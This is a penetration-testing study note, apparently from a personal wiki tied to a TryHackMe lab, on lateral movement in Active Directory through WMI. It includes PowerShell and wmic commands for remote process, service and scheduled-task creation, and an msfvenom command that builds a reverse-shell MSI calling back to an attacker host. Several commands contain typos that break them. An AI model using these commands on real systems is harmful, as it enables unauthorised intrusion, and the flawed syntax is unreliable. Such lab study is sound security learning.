 # AD Lateral Movement - WMI

Windows Management Instrumentation (WMI) is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. Not to be confused with `wmic` see [[WMI-Commands]] for more uses of WMI's Command Line utility. Regardless WMI allows administrators to perform standard management tasks, therefore a utility to lateral movement.


## Connecting to WMI From Powershell

-   **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
-   **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

Create a PSCredential object 
```powershell
$username = 'Administrator';
$password = 'admin';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```
Store sessions with `New-CimSessionOption` 
```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName <computer-name> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

## Remote Process Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Remotely spawn a process from Powershell by sending a WMI request to the Win32_process class to spawn the process under the session we previously created 
```powershell
$Command = "powershell.exe ..." # Enter a command here
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -arguments @{ CommandLine = $Command }
```
Output of command and processs create will both be silent. Legacy system can use `wmic.exe`:
```powershell
wmic.exe /user:Administrator /password:admin /node:<target computer name> process call create "cmd.exe /c <whatever tool you have on the target to connect back!>"
```

## Remote Service Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Create a sevice with Powershell; Importantly `PathName` is your payload and the `ServiceType` completed below and is a `Win32OwnProcess` Starting a service in a new Process. The `Name` and `DisplayName` are just the naming of this SErvices
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguements @{
Name = "";
DisplayName = "";
PathName = ""; 
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```
Use the service name to start like so:
```powershell
$Service = Get-CimInstance -CimSession $SEssion -ClassName Win32_SErvice -filter "Name LIKE '<service name>'" 

Invoke-CimMethod -InputObject $Service -MethodName StartService
# Stop and delte with the following:
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

## Remote Scheduled Task Creation Using WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

Create and execute a scheduled task:
```powershell
# Payload must split into Command and Args
$Command = ".exe"
$Arg = "arguments go here"
# Create the Scheduled Task
$Action = New-ScheduledTaskAction -CimSessions $Session -Execute $Command -Argument $Args
# Register it
Register-ScheduledTask -CimSession $Session -Action -$Action -User "NT AUTHORITY\SYSTEM" -TaskName "Taskname"
# Then Start
Start-ScheduleTask -CimSession $Session -TaskName "Taskname"
# Unregister to delete
Register-ScheduledTask -CimSession $Session -TaskName "Taskname"
```

## Installing MSI Packages Through WMI

**Requirements**
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
-   **Group Memberships**: 
	- Administrators

MSI is file fpormat for installers, therefore copying a MSI package to a target system and using WMI to install it. With [[MSFVenom-Payloads]]:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$attack_ip LPORT=$port -f msi > badinstall.msi
```

Inoke the `Win32_Product` class through WMI:
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\$installer.msi"; Options = ""; AllUsers = $false}
```
Legacy system can use [[WMI-Commands]]:
```powershell
wmic /node:target_ip /user:$domain\$user product call install PackageLocation=C:\Window\$installer.msi
```


## References

[Lateral movement and pivoting THM Room](https://tryhackme.com/room/lateralmovementandpivoting)
